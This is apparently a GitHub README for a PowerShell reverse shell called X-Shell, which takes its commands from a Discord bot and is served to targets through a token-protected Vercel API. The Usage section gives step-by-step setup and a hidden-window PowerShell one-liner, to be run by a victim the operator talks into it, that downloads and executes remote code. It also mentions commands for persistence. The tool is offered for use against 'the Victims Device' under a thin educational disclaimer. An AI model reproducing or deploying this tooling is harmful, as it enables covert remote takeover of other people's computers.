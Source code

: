 # X-Shell

### This is a simple powershell script that establishes a connection to a Discord server using a Bot to listen on a specified channel. All messages from that channel will be executed on the machine (reverse Shell). I also added an API, which returns the script when provided with the correct Bearer Token, making it easy to deploy the Reverse Shell on the Victims Device.


## Usage

1. Use this template to create a Discord server https://discord.new/AFkzNqmAdmex
2. Write down the Ids of #chat, the Users category and the server
3. Create a discord bot https://discord.com/developers/applications, get its Id and add it to the server
4. Fork this repo, make it private and edit `index.js`:
   - Edit the token in line 27 to whatever you like
   - Adjust lines 32-35 to match your written down Ids and the Bot token
   - Create a Vercel account if you haven't already and deploy your private GitHub repo
5. Now that you've set up the API, simply get someone to execute this command, where you replace the vercel site with yours and the token following after "Bearer", with the one you set in step 4
```powershell -c "Start-Process -WindowStyle Hidden powershell -ArgumentList '-c iex ((irm -Uri ''https://xyz.vercel.app'' -Headers @{''Authorization''=''Bearer xxx''}))'"```

#### If you encounter any issues feel free to open an Issue

<hr>
If you wan the Remote connection to be persistent, you could run different commands, found in `commands.txt`
<hr>
Even tho the API needs an authoriation Token, its still quite simple to fetch the powershell script and abuse the Discord Bot using the token. Ensure the api authorization token doesn't get wrong hands.
<hr>

## Disclaimer

This tool is for educational purposes only, and I do not assume any liability for any damages.
